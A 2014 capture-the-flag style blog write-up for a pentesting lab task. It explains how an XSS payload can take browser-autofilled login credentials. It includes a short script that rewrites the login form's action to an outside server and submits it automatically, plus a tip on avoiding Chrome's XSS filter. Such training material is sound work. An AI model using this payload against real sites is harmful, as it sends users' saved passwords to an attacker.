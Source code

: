 ```yaml
---
author: AnirudhAnand
comments: true
date: 2014-10-31 06:02:07+00:00
layout: post
slug: xss-stealing-auto-complete-js-pentesters-task-12-write
title: 'XSS - Stealing from Auto complete: JS for Pentesters task 12 write up'
wordpress_id: 319
categories:
- jsp
- javascript
- xss
- security-tube
summary: writeup for task-12 of the JS for pentesters series by securitytube - Stealing Autocomplete
---
```


Stealing from AutoComplete ? Well, that was the same reaction which comes to my mind when I went through this challenge. Usually people have a habit of saving their Username:Password combinations to the browser so that they don't want to type and repeat the same thing again when they login next time. But if the web application that the user tries to login is vulnerable to XSS, then this action will be dangerous !

[JS for Pentesters task 12](http://pentesteracademylab.appspot.com/lab/webapp/jfp/12)

Once you get into the challenge page, try entering a random username:password combination and click sign in. When the browser ask if you wanna save the password or not, click on remember password. So what happens is that next time if we visit the page, the username:password fields will be automatically filled by the browser for us. Let us see how can we steal this information:

So here what we basically want to do is to submit this form automatically without user intervention to an attacker server. We also needs to modify the form submit action so that it can point to our server instead of the original server. So the payload looks like this:

{% highlight html lineos %}
    <script>
    window.setTimeout(function () {
    document.forms[0].action = "http://pentesteracademylab.appspot.com/lab/webapp/1";
    document.forms[0].submit();
    }, 10000);
    </script>
{% endhighlight %}

Here what we are doing is that we are using the `setTimeout()` function in JavaScript which helps us in executing a function after a specified interval of time. So inside that function, we will use a user defined function in which we modify the document submit action to our own server and then we will call `.submit()` function which will automatically submit the form.

We cannot use an eventHandler (which seems can also be used) because while using `.submit()`, we are submitting form automatically and not by user clicking on the same. so eventHandler won't be provoked while doing it.

**Note:**

1) While playing with **XSS challenges**, it is always recommended to use Mozilla Firefox because Google chrome has inbuilt XSS stopper which will stop us from executing arbitrary JavaScript code even if the page is vulnerable to XSS. So its strongly recommended to use Firefox instead of chrome.

2) The solutions written above is the way we cracked the problem which might be different from the solution videos provided by the SecurityTube. If you need the solution video, you have to subscribe to [**PentesterAcademy**](http://pentesteracademy.com/).

We hope that you really liked this challenge. If there is anything you didn’t understand or wanted to get more clarity, please comment down and we are more than happy to help. Also, if you get a better way of solving the challenge, please share it with us and we are happy to learn from our readers too. Happy pentesting..
